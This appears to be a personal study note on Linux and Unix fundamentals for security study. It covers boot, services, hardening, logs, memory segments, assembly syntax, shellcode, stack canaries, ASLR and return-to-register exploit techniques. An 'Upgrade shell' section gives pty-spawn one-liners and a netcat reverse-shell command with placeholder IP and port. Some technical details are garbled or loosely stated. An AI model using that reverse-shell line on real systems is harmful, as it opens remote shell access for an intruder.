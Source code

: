 Linux is a open source operation system.

Linux distribution 
	Ubuntu 
		Based on Debian Linux
	Fedora 
		Based on Redhat Linux

Unix system boot 
	-	First boot loader is executed in order to prepare the system to begin executing the Unix kernel code
	-	Kernel initialization and execution 
	-	Initial processes (init)
	-	Init run system start-up scripts
	


The key elements of Unix
	-	Kernel : Memory resident part of the operating system, is the most important part of the Unix or any OS without kernel the OS does not function. It responsible for instructions to hardware and software. Kernel is loaded into memory at boot up. This allows faster interaction between all components. It must have a dedicated space in memory to reside without shifting. 
	-	Shell : The portion of the operating system with which users and process interact directly, Shell is the command line interpreter that uses to run programs on the computer, it provides user with interface to the system. 
	-	Hardware : Collection of components which house our data and provide means to communicate 
	
Services
	Services are started in one of four ways, at boot, by inetd/xinetd, Cron and command-line. 
	-	Init processes is started at boot, it tells the system what must be running until shutdown.
	-	Inted starts network services when there is a request for them. Xinetd is the extender of inted which allows the system to perform security checks, like limit hosts that can connect, prevent DOS attacks, etc. 
	-	Cron is similar to schedule task in windows [[Windows#^schedule]]
	
	
Security 
 The process to take to protect the OS. 
 -	Protect OS Binaries in /user, Typically the binaries that the attacker repaces are OS programs in the /user/bin and /usr/sbin directories, so protecting the /user file system is important. 
 -	Stop creating or bringing unauthorized set-UID and set-GID programs on the machine. 
 -	Raise alert if new or unexpected SUID/SGID programs appear. 
 -	Unix have two classes of users: normal who can only manipulate their own data, and superuser who can do anything to any object on the system. Unix comes with number of accounts that are associated with particular application on the system, it important to disable the accounts if the service or app is not used. 
 -	Passwd file contains the permissions and home directory. 
 -	Shadow is were the encrypted password is stored 
 -	Securing boot loader with password. (requires physical access to machine if rebooted)
 -	Tcpwrappers, all connection must pass thru a set of rules before being allowed to connect to a service. 
 -	Service should be deleted if not needed, even if they are disabled, they should still be kept up to date. 
	
Security enhancement 
	-	Bastille Linux will explain the issue and optionally fix them. The perl script inspects the system for common security mistakes. with each one, Bastille explains what the issue is, why it should be fixed and what side effects the fix might have. 
	-	[[snort]]
	-	SELinux enhance the default discretionary access control security of Unix system with the inclusion and management of a mandatory access control security effort. It allows administrators the ability to control all interactions of software on the system. 
	-	AppArmor is interchangeable with SELinux, it is seens as an easier alternative. 
	
Log
	-	UTMP log keeps tracks of users currently logged into the system.
	-	WTMP log records user logon events.
	-	Lastlog recoards users most recent login information.
	-	SULOG is used to log the use of the switch user command (su).
	-	SYSLOG record major events that take place on the system. including attempt to use su and failed login attempts.  Syslog.conf contains information on logs and location of the logs on the system. 
	
Syslog
	Accept messages over the network from any host that is able to reach the server. that means an attackers can continuously send a large volume of messages at the syslog until it either overwhelmed and cannot log any messages or filling up the disk. 
	Syslog-NG is a replacemtn for the traditional syslog it allows the the ability to filter packages and the support for windows. 
	
[[Patch management]]
	-	Apt is DEbians patching tool, allows for automated patching on Debian based Unix system. 
	-	yum is the smart software installation too for centos and other Linux distributions. when asked to install or upgrade a package, yum knows how to identify and install any supporting packages. for example , if you install a new spell checking program, yum would know how to find and install the needed dictionary. Before yum, the administrator was often given an error message about missing dictionary that didn't event list what package contained the needed file. 
	
	
	
	

	

Memory 
	Physical memory; [[RAM]]
	processor registers look as hard-coded variables. The fastest for the processor to access. 
	
	Processor Cache is used by the CPU to quickly access instructions and data from memory  Consists of L caches. The closer you get to L1 the smaller the cache is, but also faster to fetch. 
	
	Paging is performed when the system runs out of memory. The system will copy pages not recently accessed to the hard disk in a area set up as swap space. There by freeing up resources. 
	Paging is the process of allowing indirect memory mapping. Linear addressing is mapped into fixed sized pages, most commonly 4KB, Pages mapped into page tables with up to 1024 entries. 
	Object files.
	
	When high-level programming language such as C or C++ is compiled into object code. This is the representation of the program in binary machine code format. Object file can consists of multiple components. During runtime multiple segments are mapped in memory the prim segments let us walk through each one of the segments so we may further lay a foundation. 
	
	Stack segment short finite operations with predefined buffer sizes rightfully belong on the stack. 
	
	LIFO (Last in, First out)
	
	cdecl caller paces parameters, the called function from right to left and the caller tears down the stack
	
	stdall, Parameters placed by caller from right to left and the called function is responsible for tearing down the stack
	
	GNU Debugger 
		that run on UNIX OS, will attach to a process
		Similar tool for windows is called MinGW 
		
Syntax
	AT%T syntax
		Source, then destination, eg. mov $4,%eax would copy value 4 into eax. 
		last character in operands tell the size b = byte, w = word, l = long
	Intel syntax 
		Destination, then source
		
	Linkers & Loader
		Linker link function name to actual location.
		Loader load a program from storage to memory.
		
		objdump used to disassemble object files. 
		
		readelf, display ELF object file information
		
	Dynamic memory 
		Heap performing large memory allocation to hold user data or run rick content will utilize heap. Opening multiple Word documents would find the data on the heap. The heap is designed to border a large unused memory segment to allow it to grow without interfering with other memory segments . 
		Once a program is loaded into memory, EIP holds the address for the first instruction in the code segment to start the program, also known as the program entry point. The code segment is often loaded at lower memory addresses than other segments. The data segment stores global and static variables used  by the program. With some implementations you will see other segments loaded that could potentially divide up the types of data in the data segment. The BSS segment stores uninitialized variables that may not be needed by the program, or that will remain uninitialized until they are referenced. 
		Following the BSS segment is where the heap segment begins for example a web browser need to load an image on a page. memory must be allocated on the heap at this point in order to store the image in memory. The heap grows from lower memory addressing towards the stack segment. starting at a much higher memory address.  ^Memory


Shellcode 
It primarily used to spawn a shell. Shellcode is usually written in assembly and then assembled into machine code by tools such as netwide assembler. Nowadays it used to thing under the right of the program being compromised. A common usage of shellcode is to bind a shell listening port on the system, add user, dll injection. 
null bytes must not be part of the shell code, because if function hit a null byte it will be translated to a string terminator, causing the shell code to fail. ^Shellcode


Smashing the stack 
4 byte value before the return pointer. UNIX = canary, win Security cookie. 

Terminator canary
Random Canary
Null Canary 

Linux Address space layout randomization (ASLR) 
The primary objective of ASLR and other compile-time controls is to protect programs from being exploited by attackers. one method is to make eligible pages of memory non-writable or non-executable. 
tool: Idd List dynamic dependencies 
Ret to ESP 
	jmp/call esp
ret to exa
	jmp/call exa
ret to ret
	return repeatedly down the stack
ret to ptr
	registers hold addresses on the stack we can control 
	
Upgrade shell : 
	python3 -c "import pty; pty.spawn('/bin/bash')" (check what version of python is installed or install python)
	python -c "import pty; pty.spawn('/bin/bash')"
	nc @IP @Port -e /bin/bash
	
 [[Privilege escalation#^ebeddb]]
		
### Logs 
Linux uses Syslog itself is the protocol used to transport messages from network devices to a server that logs them. The log files on a syslog server are the main source of information about the operation and performance of network devices and other resources and are frequently used to identify and debug issues.


### command 
using & at the end of the command allow you to execute additional commands. 
fx python -m SimpleHTTPServer 8000 &

ps -ef | grep <pid>
	You can find the pid value next to the suspicious connection under the Process column. Use that pid to identify the process with ps -ef
	
### cheatsheet 
	https://wiki.sans.blue/Tools/pdfs/LinuxCLI101.pdf
	https://wiki.sans.blue/Tools/pdfs/LinuxCLI.pdf
	https://digital-forensics.sans.org/media/linux-shell-survival-guide.pdf?msc=Cheat+Sheet+Blog
	https://assets.contentstack.io/v3/assets/blt36c2e63521272fdc/blta6a2ae64ec0ed535/5eb08aaeead3926127b4df44/SMB-Access-from-Linux.pdf
	https://digital-forensics.sans.org/media/remnux-malware-analysis-tips.pdf?msc=Cheat+Sheet+Blog